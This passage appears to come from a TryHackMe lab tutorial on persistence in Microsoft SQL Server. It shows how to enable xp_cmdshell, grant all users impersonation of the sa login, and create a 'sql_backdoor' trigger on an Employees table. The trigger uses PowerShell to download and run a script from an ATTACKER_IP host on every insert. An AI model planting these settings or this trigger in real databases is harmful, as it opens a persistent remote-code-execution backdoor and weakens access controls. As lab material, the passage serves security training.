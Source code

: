 Before creating the trigger, we must first reconfigure a few things on the database. First, we need to enable the `xp_cmdshell` stored procedure. `xp_cmdshell` is a stored procedure that is provided by default in any MSSQL installation and allows you to run commands directly in the system's console but comes disabled by default.

To enable it, let's open `Microsoft SQL Server Management Studio 18`, available from the start menu. When asked for authentication, just use **Windows Authentication** (the default value), and you will be logged on with the credentials of your current Windows User. By default, the local Administrator account will have access to all DBs.

Once logged in, click on the **New Query** button to open the query editor:

![New SQL query](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/eb3aaca1ed1da7d1e08f0c3069a5633a.png)

Run the following SQL sentences to enable the "Advanced Options" in the MSSQL configuration, and proceed to enable `xp_cmdshell`.

```sql
sp_configure 'Show Advanced Options',1;
RECONFIGURE;
GO

sp_configure 'xp_cmdshell',1;
RECONFIGURE;
GO
```

After this, we must ensure that any website accessing the database can run `xp_cmdshell`. By default, only database users with the `sysadmin` role will be able to do so. Since it is expected that web applications use a restricted database user, we can grant privileges to all users to impersonate the `sa` user, which is the default database administrator:

```sql
USE master

GRANT IMPERSONATE ON LOGIN::sa to [Public];
```

After all of this, we finally configure a trigger. We start by changing to the `HRDB` database:

```sql
USE HRDB
```

Our trigger will leverage `xp_cmdshell` to execute Powershell to download and run a `.ps1` file from a web server controlled by the attacker. The trigger will be configured to execute whenever an `INSERT` is made into the `Employees` table of the `HRDB` database:

```sql
CREATE TRIGGER [sql_backdoor]
ON HRDB.dbo.Employees 
FOR INSERT AS

EXECUTE AS LOGIN = 'sa'
EXEC master..xp_cmdshell 'Powershell -c "IEX(New-Object net.webclient).downloadstring(''http://ATTACKER_IP:8000/evilscript.ps1'')"';
```
